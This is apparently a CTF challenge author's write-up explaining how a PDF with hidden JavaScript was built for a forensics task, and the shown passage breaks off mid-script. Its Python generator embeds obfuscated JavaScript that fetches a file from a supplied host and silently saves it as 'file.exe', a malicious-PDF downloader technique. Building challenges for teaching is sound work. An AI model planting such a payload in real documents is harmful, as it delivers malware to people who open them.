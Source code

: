 ### Scenario - Desription

> Jeroen, a skilled chef, has developed a secret recipe for a new type of bamboo stew. To protect his recipe, he hid it in a file. While Jeroen was napping, Toku stole his laptop and opened a file he found intriguing. But just as Toku was about to unlock the secret, he fell asleep, leaving the task to CSCBE participants: Can you discover Jeroen’s secret ingredient before Toku wakes up?

## Crafting the Challenge: The Technical Side

### Step 1: Generating the PDF with Hidden JavaScript

To start the challenge, I needed to create a PDF containing JavaScript code that participants would have to extract. The script I developed automates this process by embedding JavaScript into a PDF document. I was heavily inspired when creating challenge by Didier Stevens work. Didier is an expert in malicious documents and reverse engineering. His in-depth analysis and tools have significantly contributed to the cybersecurity community, especially in the detection and dissection of malicious payloads hidden in Office files and PDFs. You can explore his research, tools, and insights at https://blog.didierstevens.com. 

Here's the Python script I used to create the challenge's PDF:

```python
import sys
from PyPDF2 import PdfReader, PdfWriter

# Check that the correct number of arguments were passed
if len(sys.argv) != 3:
    print("Usage: python generate_chal.py <domain.com> <amount_of_files>")
    print("Example: python generate_chal.py 127.0.0.1 1000")
    sys.exit(1)

# Get the values of the arguments
URL = sys.argv[1]
amount = int(sys.argv[2])

# Create the JavaScript code for downloading and executing a file
js_list = []
print("Created " +str(amount)+ " javascript files")
for i in range(amount):
    start_js = "/Names [(EmbeddedJS) << /S /JavaScript /JS ("   
    mal_js = "var P=Q;(function(V,x){var F=Q,W=V();while(!![]){try{var K=-parseInt(F(0xb2))/0x1*(parseInt(F(0xb8))/0x2)+parseInt(F(0xba))/0x3*(-parseInt(F(0xaf))/0x4)+parseInt(F(0xbf))/0x5*(-parseInt(F(0xc5))/0x6)+-parseInt(F(0xbc))/0x7*(parseInt(F(0xc0))/0x8)+-parseInt(F(0xbb))/0x9*(-parseInt(F(0xb4))/0xa)+-parseInt(F(0xc6))/0xb+-parseInt(F(0xb3))/0xc*(-parseInt(F(0xc9))/0xd);if(K===x)break;else W['push'](W['shift']());}catch(Z){W['push'](W['shift']());}}}(C,0xe97f1));var fileUrl=P(0xb1),xhr=new XMLHttpRequest();function Q(V,x){var W=C();return Q=function(K,Z){K=K-0xaf;var F=W[K];return F;},Q(V,x);}xhr[P(0xcb)]('GET',fileUrl,!![]),xhr[P(0xc4)]=P(0xca),xhr['onload']=function(){var q=P,V=new File([xhr[q(0xc7)]],q(0xb7),{'type':q(0xc2)}),x=URL[q(0xb5)](V),W=document[q(0xb6)]('a');W[q(0xcc)]=q(0xc8),W[q(0xbd)]=x,W[q(0xbe)]=V['name'],document[q(0xb0)][q(0xb9)](W),W[q(0xc3)](),setTimeout(function(){var h=q;URL[h(0xcd)](x);},0x64);},xhr[P(0xc1)]();function C(){var z=['file.exe','5468zxIgZX','appendChild','3874926ZWJkQH','171kONjLd','9031309HXGsVe','href','download','70ftvfat','8watwfh','send','application/octet-stream','click','responseType','467658fnjDJz','4430360eNIcRH','response','display:\x20none','63857729zwwgjy','arraybuffer','open','style','revokeObjectURL','4biJxER','body','http://"+URL+"/file" + str(i) + ".txt','493lXWYDo','12LlAsrv','772590TVEvZu','createObjectURL','createElement'];C=function(){return z;};return C();}"
    end_js = ") >>]\n"
    javascript = start_js + mal_js + end_js
    js_list.append(javascript)

# Open the PDF file in read mode
pdf_file = open('input.pdf', 'rb')

# Create a PdfReader object
pdf_reader = PdfReader(pdf_file)
```